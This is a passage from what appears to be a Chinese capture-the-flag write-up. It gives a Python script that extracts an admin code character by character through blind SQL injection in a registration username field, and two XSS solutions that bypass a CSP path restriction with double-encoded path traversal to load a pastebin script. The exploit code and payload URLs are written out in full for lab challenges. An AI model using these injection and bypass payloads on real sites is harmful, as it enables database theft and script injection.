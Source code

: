 ```python
        s = requests.Session()
        payload = f"',commentsize=(case when(substr((select code from admin limit 1),{i},1)='{w}') then 0 else 99999 end)--"
        print(payload)
        r = s.post(reg, data={
            'username': payload,
            'password': 'admin',
        })

        r = s.post(login, data={
            'username': payload,
            'password': 'admin',
        })

        try:
            r = s.post(comment, data={
                'comment': '<>'+ '<' * 90000,
                'blog': 'sss',
                'padding': '0',
            }, timeout=5)
        except:
            flag += w
            break
        finally:
            s.get(logout)

    print(flag)
```

***

### XSS_1

CSP允许加载`pastebin.com/overwatch/`，需绕过路径限制

二次编码`/overwatch/../raw/xxxxx`

```
http://120.78.164.84:49099/9bfaf0c2/?name=https://pastebin.com/overwatch%252F..%252Fraw/TwueyDBm
```

***

### XSS_2

过滤`%2F`，编码2和f绕过

```
http://120.78.164.84:49099/4f6cd853/?name=https://pastebin.com/overwatch%25%32%46..%25%32%46raw/TwueyDBm
```

成功alert，但没flag，出题人说非预期换种思路

